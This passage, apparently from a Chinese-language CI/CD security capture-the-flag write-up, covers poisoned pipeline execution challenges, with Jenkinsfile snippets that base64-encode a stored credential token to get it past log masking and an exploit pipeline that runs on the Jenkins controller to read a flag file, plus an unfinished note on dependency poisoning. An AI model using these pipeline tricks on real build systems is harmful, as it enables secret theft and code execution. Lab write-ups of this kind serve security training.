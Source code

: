 ```Jenkinsfile
}
```

在生产环境中

```Jenkinsfile
stage('deploy') {
    steps {
        withCredentials([usernamePassword(credentialsId: 'flag2', usernameVariable: 'flag2', passwordVariable: 'TOKEN')]) {
            sh 'echo $TOKEN | base64'
        }
    }
}
```

### Cheshire Cat

#### Risks

- CICD-SEC-4: Poisoned Pipeline Execution (PPE)
- CICD-SEC-5: Insufficient PBAC (Pipeline-Based Access Controls)
- CICD-SEC-6: Insufficient Credential Hygiene

#### Analysis

这题照着 hint 做就行，直接 PPE 即可，与第一题的不同在于根据题目描述能够得知 flag 放在了用户根目录下，以及需要在 Jenkinsfile 的 agent 字段指定内置节点标签，搜索一下得知标签名为 built-in

#### Exploit

``` Jenkinsfile
pipeline {
    agent { label 'built-in' } // This specifies the job will run on the Jenkins Controller
    stages {
        stage('Read and Print File') {
            steps {
                sh 'cat ~/flag5.txt'
            }
        }
    }
}
```

### Twiddledum

#### Risks

- CICD-SEC-3: Dependency Chain Abuse

#### Analysis

ToDo (npm 没配镜像开摆了没做)
大体上通过攻击目标仓库的依赖仓库实现供应链投毒，进而对目标仓库进行 I-PPE
攻击原理参阅 [参考链接](#reference)
